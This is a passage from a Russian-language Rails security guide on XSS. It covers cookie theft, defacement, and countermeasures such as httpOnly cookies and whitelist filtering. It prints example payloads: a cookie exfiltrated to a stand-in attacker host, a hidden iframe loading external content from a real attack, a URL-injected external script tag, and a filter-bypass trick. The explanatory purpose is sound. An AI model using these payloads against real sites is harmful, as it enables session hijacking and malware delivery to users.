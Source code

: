 Лог файлы  на www.attacker.com будут подобны следующему:

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

Можно смягчить эти атаки (очевидным способом) добавив к куки флаг [httpOnly](http://dev.rubyonrails.org/ticket/8895), таким образом, document.cookie не сможет быть прочитан JavaScript. Http only куки могут использоваться начиная с IE v6.SP1, Firefox v2.0.0.5 и Opera 9.5. Safari все еще рассматривает, но игнорирует эту опцию. Но другие, более старые браузеры (такие как WebTV и IE 5.5 on Mac) могут фактически отказаться загружать страницу. Однако, будьте осторожны, что куки [все еще видны при использовании Ajax](http://ha.ckers.org/blog/20070719/firefox-implements-httponly-and-is-vulnerable-to-xmlhttprequest/).

##### Искажение

Исказив веб страницу, злоумышленник сможет сделать многое, например, предоставить ложную информацию или завлечь жертву на сайт злоумышленника, чтобы украсть куки, регистрационные данные или другую деликатную информацию. Наиболее популярным способом является включение кода с внешних источников с помощью iframe:

```html
<iframe name=”StatPage” src="http://58.xx.xxx.xxx" width=5 height=5 style=”display:none”></iframe>
```

Это загрузит произвольный HTML и/или JavaScript с внешнего источника и внедрит его, как часть сайта. Этот iframe взят из настоящей атаки на правительственные итальянские сайты с использованием [Mpack attack framework](http://isc.sans.org/diary.html?storyid=3015). Mpack пытается установить злонамеренное программное обеспечение через дыры безопасности в веб браузере – очень успешно, 50% атак успешны.

Более специализированные атаки могут накрывать целые веб сайты или отображать форму входа, которая выглядит как такая же на оригинальном сайте, но передает имя пользователя и пароль на сайт злоумышленников. Или могут использовать CSS и/или JavaScript, чтобы спрятать настоящую ссылку в веб приложении, и отобразить на ее месте другую, которая перенаправит на фальшивый веб сайт.

Атаки в форме искажающих инъекций являются такими, что основная загрузка не хранится, а предоставляется жертве позже, но включена в URL. Особенно в формах поиска не получается экранировать строку поиска. Следующая ссылка представляет страницу, озаглавленную "George Bush appointed a 9 year old boy to be the chairperson...":

```
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
  <script src=http://www.securitylab.ru/test/sc.js></script><!--
```

##### Контрмеры

_Очень важно отфильтровывать злонамеренный ввод, но также важно экранировать вывод в веб приложении_.

Особенно для XSS, важно делать _фильтрацию ввода с помощью белого списка, а не черного_. Фильтрация белым списком устанавливает допустимые значения, остальные значения недопустимы. Черные списки всегда не законченные.

Предположим, черный список удаляет “script” из пользовательского ввода. Теперь злоумышленник встраивает “&lt;scrscriptipt&gt;”, и после фильтра остается “&lt;script&gt;”. Ранние версии Rails использовали подход черного списка для методов strip_tags(), strip_links() and sanitize(). Поэтому такой сорт инъекций был возможен:
